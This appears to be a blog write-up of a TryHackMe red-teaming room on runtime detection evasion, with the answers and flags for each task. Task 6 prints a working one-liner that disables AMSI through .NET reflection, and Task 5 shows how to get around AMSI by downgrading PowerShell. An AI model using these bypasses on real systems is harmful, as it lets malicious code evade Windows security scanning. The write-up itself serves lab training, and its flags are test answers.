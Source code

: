 ```yaml
---
title: Runtime Detection Evasion
author: CYB3RM3
name: CYB3RM3 | Runtime Detection Evasion
date: 2022-10-16 15:22:31 +0100
categories: [TryHackMe, Red Teaming]
tags: [Malware, Evasion, SOC, Red Team]
---
```


Learn how to bypass common runtime detection measures, such as AMSI, using modern tool-agnostic approaches.

THM Room [https://tryhackme.com/room/runtimedetectionevasion](https://tryhackme.com/room/runtimedetectionevasion)


## TASK 1 : Introduction
### Start the provided machine and move on to the next tasks. 
No Answer

## TASK 2 : Runtime Detections
### Read the above and answer the question below. 
No Answer

### What runtime detection measure is shipped natively with Windows?
Answer : AMSI

## TASK 3 : AMSI Overview
### Read the above and answer the question below. 

No Answer.

### What response value is assigned to 32768?

![AMSI](/images/thm/runtimedetectionevasion/runtimedetectionevasion_1.png)
_AMSI_

Answer : AMSI_RESULT_DETECTED

## TASK 4 : AMSI Instrumentation


### Read the above and answer the question below. 

No Answer.

### Will AMSI be instrumented if the file is only on disk? (Y/N)

 "AMSI is instrumented from System.Management.Automation.dll, a .NET assembly developed by Windows; From the Microsoft docs, "Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications." The .NET assembly will instrument other DLLs and API calls depending on the interpreter and whether it is on disk or memory."

No the code should be run.

Answer : N

## TASK 5 : PowerShell Downgrade


### Read the above and practice downgrading PowerShell on the provided machine. 

IN CMD.EXE :

```console
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\THM-Attacker>powershell -Version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Users\THM-Attacker> cd .\Desktop
PS C:\Users\THM-Attacker\Desktop> type .\flag.txt
THM{p0w3r5h3ll_d0wn6r4d3!}
PS C:\Users\THM-Attacker\Desktop>
```
{: .nolineno }

No Answer.

### Enter the flag obtained from the desktop after executing the command in cmd.exe.

Answer : THM{p0w3r5h3ll_d0wn6r4d3!}

## TASK 6 : PowerShell Reflection


### Read the above and practice leveraging the one-liner on the provided machine. To utilize the one-liner, you can run it in the same session as the desired malicious code or prepend it to the malicious code.

No Answer.

### Enter the flag obtained from the desktop after executing the command.

```powershell
PS C:\Users\THM-Attacker\Desktop> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
PS C:\Users\THM-Attacker\Desktop> type .\flag-1.txt
THM{r3fl3c7_4ll_7h3_7h1n65}
```
{: .nolineno }

Answer : THM{r3fl3c7_4ll_7h3_7h1n65}

## TASK 7 : Patching AMSI

### Read the above and execute/observe the script on the provided machine.

No Answer.

Enter the flag obtained from the desktop after executing the command. 

```powershell
PS C:\Users\THM-Attacker\Desktop> .\bypass.ps1
True
PS C:\Users\THM-Attacker\Desktop> type .\flag-2.txt
THM{p47ch1n6_15n7_ju57_f0r_7h3_600d_6uy5}
```
{: .nolineno }

Answer : THM{p47ch1n6_15n7_ju57_f0r_7h3_600d_6uy5}

## TASK 8 : Automating for Fun and Profit
### Read the above and continue to the next task. 
No Answer.

## TASK 9 : Conclusion 
### Read the above and continue learning! 
No Answer.